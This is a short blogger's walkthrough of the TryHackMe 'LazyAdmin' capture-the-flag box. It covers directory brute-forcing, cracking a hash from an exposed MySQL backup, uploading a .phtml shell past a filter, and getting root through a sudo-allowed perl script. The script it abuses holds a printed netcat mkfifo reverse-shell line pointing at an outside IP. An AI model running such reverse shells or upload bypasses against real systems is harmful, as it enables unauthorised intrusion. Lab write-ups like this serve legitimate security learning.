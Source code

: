 ### THM LazyAdmin

Back for another.  We're gonna push through these though cause test time is coming up.

So quickly we have http and ssh open on this device, (port 80 and 22).  Go to the website and it's a base Apache page.  We've seen this before.  Try a couple quick things but don't find anything.  So break out dirbuster.

Run dirbuster and after some time we get a path to `Dir found: /content/inc/mysql_backup/ - 200`.  Go there and there's a backfile file.  So go in and download that cat it out and we find a password hash.

Go back to my main device with the GPU and run hashcat on the hash we found.  Now we have a password and a username.

Keep looking through the dirbuster output and trying things and we find the following gives us a login page.

```
Dir found: /content/as/ - 200
File found: /content/as/index.php - 200
```

Go to that page and we have a login page.  Use the creds we found in the mysql backup file and we get logged in.

Looks like we're looking at a web interface.  Some digging through that and we find a file upload type thing.  Try a .php file, that didn't work.  Change that same file to a .phtml file and that one uploaded.  Open that page after getting our listener going and we have a foothold!!

Now to go hunting.  I did a lot of hunting and found out I was looking at the answer and didn't see it.  Here's how the rest goes.

```
www-data@THM-Chal:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we got perl and a perl script.  So what does that backup.pl file do?

```
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

It runs a script called `copy.sh`.  What's that do?

```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

So that actually runs a reverse shell.  We're gonna take that for ourselves.

Change out the IP in the script and put our own ip in.  And then echo that out into the command and have it overwrite the original command and then run it as sudo, since we can do that.

![script change](/Images/THM6LazyAdmin/pic1.png)

And our listener...

![root!](/Images/THM6LazyAdmin/pic2.png)

And that's that.  Gotta remember to try and cat out everything.  I didn't do the perl file cause I wasn't aware that it was a perl file.  Thanks for coming along.  On to the next.

